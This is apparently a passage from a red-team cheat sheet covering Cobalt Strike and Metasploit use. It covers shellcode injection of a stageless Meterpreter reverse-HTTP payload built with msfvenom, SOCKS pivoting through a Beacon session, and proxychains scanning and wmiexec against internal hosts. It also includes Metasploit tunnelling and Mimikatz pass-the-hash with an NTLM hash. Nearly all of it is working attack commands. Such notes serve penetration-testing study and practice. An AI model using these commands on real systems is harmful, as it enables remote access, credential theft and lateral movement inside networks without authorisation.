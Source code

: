 # CASE 3: Shellcode Injection (From CS to Metasploit - Stageless Payload)
# Setup up metasploit
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
msf6 exploit(multi/handler) > exploit
# Generate binary
ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin
# Inject msf shellcode into process memory
beacon> shspawn x64 C:\Payloads\msf_http_x64.bin

Pivoting

# Enable Socks Proxy in beacon session (Use SOCKS 5 for better OPSEC)
beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging
beacon> socks 1080 socks4
beacon> socks stop
# Verify the SOCKS proxy on team server
attacker@ubuntu ~> sudo ss -lpnt

# Configure Proxychains in Linux
$ sudo nano /etc/proxychains.conf
socks5 127.0.0.1 1080 socks_user socks_password
$attacker@ubuntu ~> proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
$attacker@ubuntu ~ > proxychains wmiexec.py DEV/jking@10.10.122.30

# Tunnel Metasploit Framework exploits and modules through Beacon.
beacon> socks 6666 socks4
msf> setg Proxies socks4:TeamServerIP:Port
msf> setg ReverseAllowProxy true
msf> unsetg Proxies

# Use Proxifier for Windows environment 
ps> runas /netonly /user:dev/bfarmer mmc.exe
ps> mimikatz > privilege::debug
ps> mimikatz > sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
PS C:\Users\Attacker> $cred = Get-Credential
PS C:\Users\Attacker> Get-ADComputer -Server 10.10.122.10 -Filter * -Credential $cred | select
